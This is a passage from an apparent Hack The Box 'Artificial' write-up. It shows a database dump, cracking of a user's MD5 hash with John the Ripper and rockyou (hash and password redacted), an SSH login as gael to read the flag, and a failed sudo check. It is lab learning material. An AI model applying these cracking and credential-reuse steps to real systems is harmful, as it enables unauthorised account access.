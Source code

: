 ```bash
        filename VARCHAR(120) NOT NULL, 
        user_id INTEGER NOT NULL, 
        PRIMARY KEY (id), 
        FOREIGN KEY(user_id) REFERENCES user (id)
);
INSERT INTO model VALUES('84b845a4-8ba7-442c-848f-631f90e209ea','84b845a4-8ba7-442c-848f-631f90e209ea.h5',8);
COMMIT;
```
### John The Ripper

We can easily crack the passwords with [JohnTheRipper](../../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial]
└─$ cat hash.txt  
{{REDACTED_HASH}}

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status

{{REDACTED_PASSWD}} (gael)    
 
1g 0:00:00:00 DONE (2025-08-24 19:39) 3.448g/s 19729Kp/s 19729Kc/s 19729KC/s mattpapa..mattlvsbree
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
### SSH (22)

Now we can use the credentials to access on [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~]
└─$ ssh gael@artificial.htb    
gael@artificial.htbs password: 

gael@artificial:~$ cat user.txt 
  HTB{{REDACTED_FLAG}}
```
## Gael to Root

We can check sudo files:

```bash
gael@artificial:~$ sudo -l
[sudo] password for gael: 
Sorry, user gael may not run sudo on artificial.
```
### LinPEAS
